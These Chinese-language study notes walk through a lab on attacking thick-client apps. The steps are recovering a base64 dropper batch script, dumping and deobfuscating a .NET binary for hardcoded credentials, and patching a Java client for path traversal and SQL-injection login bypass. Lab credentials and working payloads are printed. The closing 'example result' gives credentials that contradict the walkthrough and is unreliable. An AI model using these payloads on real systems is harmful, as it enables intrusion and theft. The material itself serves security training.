

# Thick client(也稱為rich客戶端或fat客戶端

### 1️⃣ 發現點（偵察階段）

* 確認：
  * 應用程式架構（C/S 架構）
  * 使用語言（如 .NET / Java）
  * 框架版本、是否有弱點
  * 找到應用入口、輸入點（表單、上傳接口、RPC）
* 常用工具：
  * **ProcMon**、**Wireshark**：觀察應用執行時的行為和網絡流量
  * **dnSpy**、**ILSpy**：.NET 反編譯
  * **Ghidra** / **x64dbg**：逆向分析
  * **strings**、**binwalk**：快速檢測檔案中敏感字串或嵌入內容

***

### &#x20;2️⃣ 從Thick-Client 客戶端應用程式中檢索硬編碼憑證

*   以下場景引導我們枚舉並利用胖客戶端應用程序，以便在滲透測試期間在公司網路內部橫向移動。在我們獲得對公開的 SMB 服務的存取權限後，該場景開始。




內部橫向移動

> 公開的 SMB 服務的存取權限

探索 SMB 服務的`NETLOGON`共用會發現`RestartOracle-Service.exe`和其他檔案。將可執行檔下載到本機並透過命令列運行它，但它似乎沒有運行或運行了一些隱藏的東西。

```cmd-session
C:\Apps>.\Restart-OracleService.exe
C:\Apps>
```

\




從[SysInternals](https://learn.microsoft.com/en-gb/sysinternals/downloads/procmon)下載工具`ProcMon64`並監控其流程


可執行檔確實在 `C:\Users\Matt\AppData\Local\Temp` 中建立了一個臨時檔案。


為了捕獲文件，需要更改`Temp`資料夾的權限以不允許刪除文件。為此，我們右鍵單擊資料夾 `C:\Users\Matt\AppData\Local\Temp` ，然後在`Properties` -> `Security` -> `Advanced` -> `cybervaca` -> `Disable inheritance` -> `Convert inherited permissions into explicit permissions on this object` -> `Edit` -> `Show advanced permissions`下，取消選擇`Delete subfolders and files`以及`Delete`複選框。

<figure><figcaption></figcaption></figure>

\




###

最後我們在開啟的視窗上點選`OK` > `Apply` > `OK` > `OK` 。一旦應用了資料夾權限，我們只需再次運行`Restart-OracleService.exe`並檢查`temp`資料夾。在 `C:\Users\cybervaca\AppData\Local\Temp\2` 下建立檔案`6F39.bat` 。每次服務運行時，產生的文件的名稱都是隨機的。

```cmd-session
C:\Apps>dir C:\Users\cybervaca\AppData\Local\Temp\2

...SNIP...
04/03/2023  02:09 PM         1,730,212 6F39.bat
04/03/2023  02:09 PM                 0 6F39.tmp
```

```batch
@shift /0
@echo off

if %username% == matt goto correcto
if %username% == frankytech goto correcto
if %username% == ev4si0n goto correcto
goto error

:correcto
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe
```

Code: batch\
代碼：批次處理

列出`6F39`批次檔的內容顯示以下內容



檢查文件內容後發現，批次檔刪除了兩個文件，在任何人能夠存取剩余文件之前它們就被刪除了。我們可以嘗試透過修改批次腳本並刪除來檢索這兩個檔案的內容。


```batch
@shift /0
@echo off

echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
```



###

雙擊執行批次腳本後，我們等待幾分鐘，在目錄`c:\programdata\`下發現`oracle.txt`文件，其中包含另一個充滿 base64 行的文件，以及包含以下內容的腳本`monta.ps1` 。列出檔案`monta.ps1`的內容會顯示以下程式碼。


```powershell-session
C:\>  cat C:\programdata\monta.ps1

$salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida))
```

這個腳本只是讀取`oracle.txt`檔案的內容並將其解碼為`restart-service.exe`可執行檔。運行此腳本將為我們提供一個可以進一步分析的最終可執行檔。

&#x20; Attacking Thick Client Applications\
攻擊胖客戶端應用程式

```powershell-session
C:\>  ls C:\programdata\

Mode                LastWriteTime         Length Name
<SNIP>
-a----        3/24/2023   1:01 PM            273 monta.ps1
-a----        3/24/2023   1:01 PM         601066 oracle.txt
-a----        3/24/2023   1:17 PM         432273 restart-service.exe
```

\
\




現在，當執行`restart-service.exe`時，我們會看到由`HelpDesk`在 2010 年創建的橫幅`Restart Oracle` 。

\


```powershell-session
C:\>  .\restart-service.exe

    ____            __             __     ____                  __
   / __ \___  _____/ /_____ ______/ /_   / __ \_________ ______/ /__
  / /_/ / _ \/ ___/ __/ __ `/ ___/ __/  / / / / ___/ __ `/ ___/ / _ \
 / _, _/  __(__  ) /_/ /_/ / /  / /_   / /_/ / /  / /_/ / /__/ /  __/
/_/ |_|\___/____/\__/\__,_/_/   \__/   \____/_/   \__,_/\___/_/\___/

                                                by @HelpDesk 2010


PS C:\ProgramData>
```

透過`ProcMon64`檢查可執行檔的執行情況表明，它正在查詢註冊表中的多個內容，但沒有顯示任何可靠的內容。

\




讓我們啟動`x64dbg` ，導航到`Options` - > `Preferences` ，然後取消選中除`Exit Breakpoint`之外的所有選項：

.png>)\





透過取消選取其他選項，偵錯將直接從應用程式的退出點開始，我們將避免瀏覽應用程式啟動前載入的任何`dll`檔案。然後，我們可以選擇`file` -> `open` ，並選擇`restart-service.exe`進行導入並開始偵錯。導入後，我們在`CPU`視圖內單擊滑鼠右鍵，然後`Follow in Memory Map` ：

<figure><figcaption></figcaption></figure>

檢查執行此階段的記憶體映射，特別感興趣的是大小為`0000000000003000`的映射，其類型為`MAP`且保護設定為`-RW--` 。

<figure><figcaption></figcaption></figure>



記憶體映射文件允許應用程式存取大文件，而無需一次讀取或寫入整個文件到記憶體中。相反，該檔案被映射到記憶體的某個區域，應用程式可以像記憶體中的常規緩衝區一樣讀取和寫入該區域。這可能是尋找硬編碼憑證的地方。

如果我們雙擊它，我們將在`ASCII`列中看到神奇位元組`MZ` ，這表示該檔案是[DOS MZ 執行檔](https://en.wikipedia.org/wiki/DOS_MZ_executable)。

<figure><figcaption></figcaption></figure>

\




讓我們返回到「記憶體映射」窗格，然後透過右鍵單擊位址並選擇「將記憶體轉儲到檔案」將新發現的映射項目從記憶體匯出到`Dump Memory to File` 。在導出的文件上運行`strings`會揭示一些有趣的資訊。

```powershell-session
C:\> C:\TOOLS\Strings\strings64.exe .\restart-service_00000000001E0000.bin

<SNIP>
"#M
z\V
).NETFramework,Version=v4.0,Profile=Client
FrameworkDisplayName
.NET Framework 4 Client Profile
<SNIP>
```



###

讀取輸出顯示轉儲包含`.NET`可執行檔。我們可以使用`De4Dot`將 `restart-service_00000000001E0000.bin` 拖曳到`de4dot`執行檔上，將`.NET`執行檔反轉回原始程式碼。

```cmd-session
de4dot v3.1.41592.3405

Detected Unknown Obfuscator (C:\Users\cybervaca\Desktop\restart-service_00000000001E0000.bin)
Cleaning C:\Users\cybervaca\Desktop\restart-service_00000000001E0000.bin
Renaming all obfuscated symbols
Saving C:\Users\cybervaca\Desktop\restart-service_00000000001E0000-cleaned.bin


Press any key to exit...
```



<figure><figcaption></figcaption></figure>

現在，我們可以透過將匯出的應用程式拖放到`DnSpy`可執行檔中來讀取其原始程式碼。






***

### &#x20;3️⃣ “對 C:\Apps\Restart-OracleService.exe 進行分析並識別隱藏在其原始程式碼中的憑證。使用使用者名稱:密碼格式提交答案。”

<details>

<summary>Example</summary>

代號：shell

```shell
xfreerdp /v:STMIP /u:cybervaca /p:'&aue%C)}6g-d{w' /dynamic-resolution /drive:share,/home/htb-ac-594497
```

&#x20; 攻擊胖客戶端應用程式

```shell-session
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ xfreerdp /v:STMIP /u:cybervaca /p:'&aue%C)}6g-d{w' /dynamic-resolution /drive:share,/home/htb-ac-594497

[16:12:24:734] [14803:14807] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
<SNIP>
```

然後，學生需要導航到`C:\TOOLS\ProcessMonitor`並啟動`Procmon64`：


出現提示時單擊`Agree`，一旦`Procmon64`運行，學生需要使用檔案總管將`Restart-OracleService`腳本從`sysvol`共用複製到桌面：


然後，學生需要打開命令提示符，導航到桌面並運行`Restart-OracleService.exe`應用程式：

代碼：cmd

```cmd
cd Desktop
.\Restart-OracleService.exe
```

&#x20; 攻擊胖客戶端應用程式

```cmd-session
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\cybervaca>cd Desktop

C:\Users\cybervaca\Desktop>.\Restart-OracleService.exe
```

檢查`Procmon`，學生需要過濾流程名稱，僅允許 `Restart-OracleService.exe`顯示流程：


學生會注意到可執行檔在以下位置建立一個臨時檔案`C:\Users\cybervaca\AppData\Local\Temp`：


學生需要刪除權限條目，僅保留`cybervaca`，停用資料夾的繼承並取消選取以下複選框`Delete / Delete subfolders and files`：


學生需要在`SYSTEM`和 上應用相同的權限條目`Administrators`，最終顯示所有三個均具有`Special`存取權限：


運行該`Restart-OracleService.exe`應用程序，學生將看到 Windows 批次檔的建立：

代碼：cmd

```cmd
.\Restart-OracleService.exe
```

&#x20; 攻擊胖客戶端應用程式

```cmd-session
c:\Users\cybervaca\Desktop>.\Restart-OracleService.exe
```


同學需要編輯 中的腳本`Notepad`，修改為不再刪除 `monta.ps1`和`oracle.txt`檔案：


儲存變更後，學生需要雙擊再次執行腳本。然後，他們需要確認`monta.ps1`和`oracle.txt`文件存在於`C:\ProgramData`：


之後，學生需要以管理員身分啟動 PowerShell 並執行`monta.ps1`：

代碼：powershell

```powershell
cd C:\Programdata
cat .\monta.ps1
.\monta.ps1
```

&#x20; 攻擊胖客戶端應用程式

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Programdata

PS C:\Programdata> cat .\monta.ps1
$salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida))

PS C:\Programdata> .\monta.ps1
```

`restart-service.exe`這將在 內部建立一個新的可執行文件，`C:\ProgramData`學生需要將其複製到桌面：


隨後，學生需要`x64dbg`以管理員身份開啟並選擇`File`-->`Open`並選擇`restart-service.exe`文件：


也必須將首選項設為中斷`Exit Breakpoint`：


運行程序，學生需要檢查記憶體映射，尋找`MAP`具有`Read/Write`保護的類型：


學生需要在 Dump 中按一下右鍵並進行關注。在那裡，他們應該注意到運行可執行檔時看到的 ASCII 標頭：


驗證地址正確後，學生需要`Dump Memory to File`將記憶體轉儲保存到桌面。然後，學生需要將記憶體轉儲拖放`de4dot.exe`到`C:\TOOLS\de4dot\`：


隨後，學生需要將清理好的拖放。`bin`文件`dnSpy`，找到憑證`svc_oracle:#oracle_s3rV1c3!2010`：


答：{隱藏}

\


</details>


***

### &#x20;4️⃣  fat-client 應用程式中 ServerStatus -> Ipconfig 標籤下 eth0 介面的 IP 位址是什麼？

`cybervaca:&aue%C)}6g-d{w`產生目標機器後，學生需要先使用 RDP 使用憑證連接到目標：

代號：shell

```shell
xfreerdp /v:STMIP /u:cybervaca /p:'&aue%C)}6g-d{w' /dynamic-resolution
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```shell-session
┌─[eu-academy-1]─[10.10.14.228]─[htb-ac-594497@htb-ykablsqh4y]─[~]
└──╼ [★]$ xfreerdp /v:10.129.153.234 /u:cybervaca /p:'&aue%C)}6g-d{w' /dynamic-resolution

[22:30:02:859] [8648:8649] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[22:30:02:859] [8648:8649] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[22:30:02:859] [8648:8649] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
```

隨後，學生需要打開文件資源管理器，導航到`C:\Apps`並右鍵單擊`fatty-client`以提取文件：


將厚客戶端的內容解壓縮到一個資料夾後，學生需要進入新建立的目錄並編輯`beans.xml`文檔，將連接埠替換`8000`為`1337`：


此外，學生需要從中刪除哈希值`META-INF/MANIFEST.MF`，確保檔案以新行結尾：


此外，學生必須刪除`1.RSA`和`1.SF`文件：


儲存變更後，學生需要開啟 PowerShell 並更新`fatty-client.jar`，將其儲存為`fatty-client-new.jar`：

代碼：powershell

```powershell
cd C:\Apps\fatty-client\
jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\cybervaca> cd C:\Apps\fatty-client\
PS C:\Apps\fatty-client> jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
PS C:\Apps\fatty-client>
```

同學們需要將新的 jar 檔案拖曳到 中`jd-gui`，然後選擇`File`--> `Save All Sources`：


隨後，學生需要將`fatty-client-new.jar.src.zip`檔案解壓縮到桌面並編輯`fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java`文件，將`configs`資料夾名稱替換為`..`：


儲存變更後，學生需要開啟 PowerShell 並編譯`ClientGuiTest.Java`檔案：

代碼：powershell

```powershell
cd C:\Users\cybervaca\Desktop\
javac -cp fatty-client-new.jar fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java
mkdir raw
cp fatty-client-new.jar raw/fatty-client-new-2.jar
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Users\cybervaca\Desktop\
PS C:\Users\cybervaca\Desktop> javac -cp fatty-client-new.jar fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java
PS C:\Users\cybervaca\Desktop> mkdir raw


    Directory: C:\Users\cybervaca\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/1/2023   1:28 AM                raw


PS C:\Users\cybervaca\Desktop> cp fatty-client-new.jar raw/fatty-client-new-2.jar
```

然後，學生需要`fatty-client-new-2.jar`透過右鍵單擊並選擇來解壓縮`Extract Here`：


之後，學生需要`htb/fatty/client/gui/*.class`用更新的課程文件涵蓋所有現有文件：

代碼：powershell

```powershell
mv -Force fatty-client-new.jar.src/htb/fatty/client/gui/*.class raw/htb/fatty/client/gui/
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
PS C:\Users\cybervaca\Desktop> mv -Force fatty-client-new.jar.src/htb/fatty/client/gui/*.class raw/htb/fatty/client/gui/
```

現在，學生可以建立新的 JAR 檔案：

代碼：powershell

```powershell
cd raw
jar -cmf META-INF/MANIFEST.MF traverse.jar .
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
PS C:\Users\cybervaca\Desktop> cd raw
PS C:\Users\cybervaca\Desktop\raw> jar -cmf META-INF/MANIFEST.MF traverse.jar .
```

完成後，學生需要啟動`traverse.jar`並驗證身份`qtc:clarabibi`。然後，他們需要前往`FileBrowser`--> `Configs`，查看 start.sh 腳本：


該實用程式允許胖客戶端查看/檢索遠端伺服器上託管的文件，並揭示應用程式伺服器的存在`fatty-server.jar`。

現在，學生需要修改`open`中的函數`fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java`以便能夠下載檔案`fatty-server.jar`：

程式碼：java

```java
import java.io.FileOutputStream;
```


程式碼：java

```java
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
```


儲存變更後，學生需要再次重建 jar：

代碼：powershell

```powershell
javac -cp fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\client\methods\Invoker.java
mv -Force .\fatty-client-new.jar.src\htb\fatty\client\methods\*.class .\raw\htb\fatty\client\methods\
cd raw
jar -cmf META-INF/MANIFEST.MF fatty-client-modified.jar .
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
PS C:\Users\cybervaca\Desktop> javac -cp fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\client\methods\Invoker.java
PS C:\Users\cybervaca\Desktop> mv -Force .\fatty-client-new.jar.src\htb\fatty\client\methods\*.class .\raw\htb\fatty\client\methods\
PS C:\Users\cybervaca\Desktop> cd raw
PS C:\Users\cybervaca\Desktop\raw> jar -cmf META-INF/MANIFEST.MF fatty-client-modified.jar .
```

啟動新編譯的jar，學生需要登入下載`fatty-server.jar`：


學生需要將 拖曳`fatty-server.jar`到 上`jd-gui`，然後點選`File`--> `Save All Sources`：


使用 JD-GUI反編譯會 顯示 包含  處理登入功能的函數的`fatty-server.jar` 檔案 。此函數根據提供的使用者名稱檢索使用者詳細資訊。然後，它將檢索到的密碼與提供的密碼進行比較：`htb/fatty/server/database/FattyDbSession.classcheckLogin()`

程式碼：java

```java
public User checkLogin(User user) throws LoginException {
    <SNIP>
      rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
      <SNIP>
        if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
          return newUser; 
        throw new LoginException("Wrong Password!");
      <SNIP>
           this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
      return null;
```

登入按鈕 `ClientGuiTest.this.user` 為該類別 建立新的物件`User` 。然後它 使用相應的用戶名和密碼值來呼叫 `setUsername()` 和 函數。`setPassword()`然後將這些函數傳回的值傳送到伺服器：


當從中檢查`setUsername()` 和 `setPassword()` 函數 時`htb/fatty/client/shared/resources/user.java`，學生將知道用戶名未經任何修改就被接受，但密碼被更改為`sha256`用戶名值、密碼值和字串「clarabibimakeseverythingsecure」的雜湊摘要：

程式碼：java

```java
public void setUsername(String username) {
    this.username = username;
  }
  
  public void setPassword(String password) {
    String hashString = this.username + password + "clarabibimakeseverythingsecure";
    MessageDigest digest = null;
    try {
      digest = MessageDigest.getInstance("SHA-256");
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
    } 
    byte[] hash = digest.digest(hashString.getBytes(StandardCharsets.UTF_8));
    this.password = DatatypeConverter.printHexBinary(hash);
  }
```

學生會注意到使用者名稱沒有被清理並直接用於 SQL 查詢，這使得它容易受到 SQL 注入的攻擊。學生需要利用現場注入 `username` 來創建虛假的使用者條目：

程式碼：java

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

事先，學生需要編輯程式碼`htb/fatty/shared/resources/User.java`以從客戶端應用程式提交密碼：

程式碼：java

```java
public void setPassword(String password) {
    this.password = password;
}
```


程式碼：java

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
```


同學需要重新編譯java類別文件，然後建立一個新的JAR：

代碼：powershell

```powershell
javac -cp .\fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
mv -Force .\fatty-client-new.jar.src\htb\fatty\shared\resources\*.class .\raw\htb\fatty\shared\resources\
cd .\raw\
jar -cmf .\META-INF\MANIFEST.MF inject.jar .
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
PS C:\Users\cybervaca\Desktop> javac -cp .\fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
PS C:\Users\cybervaca\Desktop> mv -Force .\fatty-client-new.jar.src\htb\fatty\shared\resources\*.class .\raw\htb\fatty\shared\resources\
PS C:\Users\cybervaca\Desktop> cd .\raw\
PS C:\Users\cybervaca\Desktop\raw> jar -cmf .\META-INF\MANIFEST.MF inject.jar .
```

最後，學生需要執行新編譯的`inject.jar`並使用 SQL 注入負載（用作`abc`密碼）繞過登入：

程式碼：sql

```sql
abc' UNION SELECT 1,'abc','a@b.com','abc','admin
```


成功繞過特權使用者登入後，學生最終需要檢查`eth0`介面的 IP 位址，發現它是`172.28.0.3`：


答：{隱藏}

\


***

### 5️⃣ 連鎖漏洞路徑（Exploit Chain）

| 步驟                | 動作                                               | 工具                                    |
| ----------------- | ------------------------------------------------ | ------------------------------------- |
| **SMB 訪問**        | 從可存取的共享目錄下載執行檔                                   | `smbclient` / `net use`               |
| **ProcMon 偵察**    | 觀察 EXE 行為，發現有臨時檔案、隱藏 PowerShell 腳本               | ProcMon64                             |
| **修改 Temp 權限**    | 阻止自動刪除，保留生成的 `.bat`、`.ps1`、`.txt` 文件             | 手動調整 NTFS 權限                          |
| **Base64 解碼**     | 從 oracle.txt 抽出 payload，還原成 restart-service.exe  | `certutil -decode` 或 Python 腳本        |
| **Memory Dump**   | 透過 x64dbg Memory Map 区域 Dump                     | x64dbg + strings                      |
| **反混淆**           | 使用 de4dot 還原 .NET 可執行檔                           | de4dot                                |
| **反編譯**           | 在 dnSpy 中獲得原始碼，找到硬編碼帳戶 / 密碼                      | dnSpy                                 |
| **服務重啟 & 本地權限升級** | 找到 runas 腳本可利用漏洞，自行透過 PowerShell 利用帳密重啟服務提權      | PowerShell                            |
| **內網橫向移動**        | 利用硬編碼憑證登入其他 SMB / SQL Server，執行 lateral movement | `psexec` / `crackmapexec` / `smbexec` |

***

### ✅ 範例結果展示（提取硬編碼憑證）

```plaintext
plaintext複製username: matt
password: OracleRestart@2010
```

* 發現後，可用此憑證登入其他 SMB、SQL、或者 Windows AD
* 如目標機存在弱 SMB/WinRM，直接用 `psexec.py` 或 `smbexec.py` 嘗試橫向滲透

***

### 🔎 高級玩法（進階連鎖漏洞）

* 1️⃣ 從服務中提取帳號
* 2️⃣ 利用帳號在內網中橫向登入（WinRM / RDP）
* 3️⃣ 尋找敏感檔案（如 DB 備份 / 密碼清單）
* 4️⃣ 攻擊 SQL Server，取得進一步 RCE
* 5️⃣ 使用該主機作為 Pivot，內網掃描 → 嘗試攻擊域控

***

#### ✅ 如果你需要，我可以幫你製作一份：

* 【胖客戶端滲透測試 Cheat Sheet】PDF
* 附帶 **Payload 清單 + 工具組合推薦 + 常見漏洞檢查路線**
